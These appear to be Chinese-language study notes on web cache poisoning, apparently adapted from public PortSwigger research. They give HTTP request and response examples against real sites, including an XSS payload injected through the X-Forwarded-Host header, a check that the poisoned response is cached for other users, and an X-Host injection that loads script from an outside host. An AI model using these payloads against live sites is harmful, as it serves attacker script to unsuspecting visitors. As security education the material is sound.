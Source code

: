 ![](media/Pasted%20image%2020231006153251.png)  


#### Basic Poisoning
1. 找非缓存键
```code
GET /en?cb=1 HTTP/1.1  
Host: www.redhat.com  
X-Forwarded-Host:      **canary** 
  
HTTP/1.1 200 OK  
Cache-Control: public, no-cache  
…  
<meta property="og:image" content="https://  **canary **  /cms/social.png" />
```
2. 评估是否可利用
```code
GET /en?dontpoisoneveryone=1 HTTP/1.1  
Host: www.redhat.com  
X-Forwarded-Host:     **a."><script>alert(1)</script> **
  
HTTP/1.1 200 OK  
Cache-Control: public, no-cache  
…  
<meta property="og:image" content="https://   **a."><script>alert(1)</script>**  "/>
```
3. 检查此响应是否已存储在缓存中，以便将其传递给其他用户
```code
GET /en?dontpoisoneveryone=1 HTTP/1.1  
Host: www.redhat.com  
  
HTTP/1.1 200 OK  
…  
<meta property="og:image" content="https://a."><script>alert(1)</script>"/>
```

#### Discreet poisoning
1. 发送大量请求保证缓存，方法几乎不可用
2. 逆向目标的缓存到期系统并通过浏览文档和监控网站来预测准确的到期时间来避免这个问题，但这听起来就很难。
3. 响应协议头“Age”和“max-age”分别是当前响应的时间和它将过期的时间
```code
GET / HTTP/1.1
Host: unity3d.com
X-Host: portswigger-labs.net

HTTP/1.1 200 OK
Via: 1.1 varnish-v4
Age: 174
Cache-Control: public, max-age=1800
…
<script src="https://portswigger-labs.net/sites/files/foo.js"></script>
```
